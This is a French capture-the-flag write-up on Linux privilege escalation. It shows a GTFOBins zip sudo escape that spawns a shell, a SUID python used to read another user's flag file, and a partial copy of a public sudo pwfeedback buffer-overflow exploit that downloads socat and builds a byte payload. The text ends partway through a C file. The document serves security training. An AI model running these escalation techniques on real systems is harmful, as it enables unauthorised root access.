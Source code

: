 **PHACK{CELEBRITYINFINITY}**

## Sudoku
```
-bash-5.1$ sudo -l
User padawan may run the following commands on sudoku:
    (master) NOPASSWD: /usr/bin/zip
```
Ca alors ! Go to GTFBin

```
TF=$(mktemp -u)
sudo -u master zip $TF /etc/hosts -T -TT 'sh #'
```

**PHACK{U_h4v3_tH3_suP3r_P0w3r}**

## To B, or ! to B
On cherche les executables qui ont le SUID bit.
```
-bash-5.1$ find / -user master -perm -4000 -exec ls -la {} \;
-rwsr-xr-x    1 master   root         14048 Mar 15 12:52 /usr/bin/python3.8
```
```
-bash-5.1$ python3.8
>>> open("/home/master/flag.txt","r").read()
```

**PHACK{U_4r3_hiM_bu7_h3's_n07_U}**

## Sudoku v2
L'options pwdfeedback est bugué, et permet de réaliser un buffer overflow. On trouve le bon petit exploit sur internet.

https://www.exploit-db.com/exploits/47995

```
#!/bin/bash

if [ ! -f socat ];
then
    wget https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat
    chmod +x socat
fi

cat <<EOF > xpl.pl
\$buf_sz = 256;
\$askpass_sz = 32;
\$signo_sz = 4*65;
\$tgetpass_flag = "\x04\x00\x00\x00" . ("\x00"x24);
print("\x00\x15"x(\$buf_sz+\$askpass_sz) .
     ("\x00\x15"x\$signo_sz) .
     (\$tgetpass_flag) . "\x37\x98\x01\x00\x35\x98\x01\x00\x35\x98\x01\x00\xff\xff\xff\xff\x35\x98\x01\x00\x00\x00\x00\x00".
     "\x00\x00\x00\x00\x00\x15"x104 . "\n");
EOF

cat <<EOF > exec.c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

```